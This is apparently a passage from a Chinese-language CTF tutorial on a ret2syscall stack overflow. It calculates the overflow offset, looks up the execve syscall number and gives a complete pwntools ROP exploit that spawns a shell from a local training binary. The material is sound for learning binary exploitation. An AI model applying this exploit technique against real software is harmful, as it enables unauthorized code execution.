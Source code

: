 [![](assets/1701612384-87da10def12c560fdda36bded4983f58.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230629203301-1680dfbe-1679-1.png)

可以看到我们输入的字符存储在eax的0xffffd0ec地址，要想栈溢出需要覆盖到ebp的0xffffd158，然后ebp自身还有4字节的长度，所以要写入112个的垃圾字节

这里说一下如何查看eax中的execve的系统调用号

```plain
cat /usr/include/x86_64-linux-gnu/asm/unistd_32.h | grep "execve"
```

[![](assets/1701612384-885773e987f978a0ce6cde7a05294a93.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230629203331-2869f8fa-1679-1.png)

十进制的11,也就是16进制的0xb

编写exp

```plain
from pwn import *

io = process('./ret2syscall')

pop_eax_ret_addr=0x080bb196
pop_edx_ecx_ebx_addr=0x0806eb90
int_80=0x08049421
bin_sh_addr=0x080be408

payload=flat([b'A'*112,pop_eax_ret_addr,0xb,pop_edx_ecx_ebx_addr,0,0,bin_sh_addr,int_80])
#利用flat()将一系列数据打包成二进制格式的字符串
#相当于payload=b'A'*112+p32(pop_eax_ret_addr)+p32(0xb)+p32(pop_edx_ecx_ebx_addr)+p32(0)+p32(0)+p32(bin_sh_addr)+p32(int_80) 不知道这一长串为什么不行，栈平衡的问题

io.sendline(payload)
io.interactive()
```
